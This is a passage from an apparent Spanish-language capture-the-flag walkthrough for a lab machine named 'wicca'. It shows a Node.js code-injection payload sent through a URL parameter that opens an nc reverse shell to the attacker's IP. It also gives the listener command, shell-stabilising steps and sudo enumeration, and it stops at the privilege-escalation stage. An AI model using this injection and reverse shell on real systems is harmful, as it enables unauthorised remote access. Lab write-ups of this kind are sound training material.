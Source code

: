 ## **Explotación**

### 4. Reverse Shell con Node.js
**Payload utilizado**:
```javascript
require('child_process').exec('nc -e /bin/bash 10.0.2.4 9001')
```

**Inyección en URL**:
```
http://10.0.2.14:5000/?name=prueba&token=require('child_process').exec('nc -e /bin/bash 10.0.2.4 9001')
```

### 5. Listener en Atacante
```bash
nc -lvnp 9001
```

## **Acceso Inicial**

### 6. Obtención de Shell
- Conexión reverse shell exitosa
- Usuario: `aleister`

### 7. Flag de Usuario
```bash
cd /home/aleister
cat user.txt
```
- **User Flag**: `[Redacted]`

### 8. Tratamiento de TTY
```bash
# Mejorar shell interactiva
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset
xterm
```

## **Escalada de Privilegios**

### 9. Enumeración de Permisos Sudo
```bash
sudo -l
```

**Resultado**:
```
User aleister may run the following commands on wicca:
    (root) NOPASSWD: /usr/bin/links
```
